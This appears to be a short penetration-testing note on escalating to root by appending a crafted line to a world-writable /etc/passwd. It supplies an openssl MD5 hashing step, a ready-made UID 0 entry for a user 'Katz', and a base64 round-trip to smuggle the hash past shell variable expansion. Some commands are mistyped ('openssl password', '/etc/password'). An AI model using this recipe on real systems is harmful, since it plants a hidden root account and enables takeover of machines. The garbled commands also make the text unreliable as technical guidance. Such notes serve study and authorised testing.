 # Important Notes

If you found that you can write to /etc/passwd

    -rw-rw-r — 1 root root 1637 Nov 23 23:46 /etc/passwd 

Use openssl to generate a password the password has HackedByKatz

    $ openssl password -1 

The purpose of the openssl passwd command is to feed your password through a one-way hashing algorithm (-1 outputs MD5). What that gets you is a string that's derived from your password cryptographically, but cannot be used to find your password on its own if an attacker gets their hands on the hashed version.

The /etc/passwd contains one entry per line for each user (or user account) of the system. All fields are separated by a colon(:) symbol. Total seven fields.

Now let's construct a user line based on what we just learned about /etc/passwd

    Katz:$1$pm/vHfDN$Oa.8XX4nKsoqpU2oeT3P6/:0:0:Katz:/root:/bin/bash

We can't write to /etc/passwd by vi or nano !! 

Test case:
    $ variable = Test 
    $ echo $variable 

    cat passwd 
    Katz:$1$pm/vHfDN$Oa.8XX4nKsoqpU2oeT3P6/:0:0:Katz:/root:/bin/bash

I have created a variable which contains the string <b>Test</b> all good right? Now if I want to display the string I assigned to the variable I have to use the $sign. That's how you call variables in bash. So there's going to be conflict when if we echo passwd >> /etc/passwd there won't be errors but bash will think that $1 and $ pm/vHfDN$Oa.8XX4nKsoqpU2oeT3P6/ are variables and yout /etc/passwd file will look something like this ... 

    Katz::0:0:Katz:/root:/bin/bash

That will not allow you to login as the user Katz properly. Something that we could do to bypass this issue is to encode it in base64

    cat passwd | base64 -w 0 
    echo "xxxxx" | base64 -d 

Copy the base64 string to decode it but on it's way to being decoded also redirect it to the /etc/passwd file like so 

    echo "xxxx" | base64 -d >> /etc/password  


Making the best use of sudoers and SUID enabled file /etc/passwd :)
***


















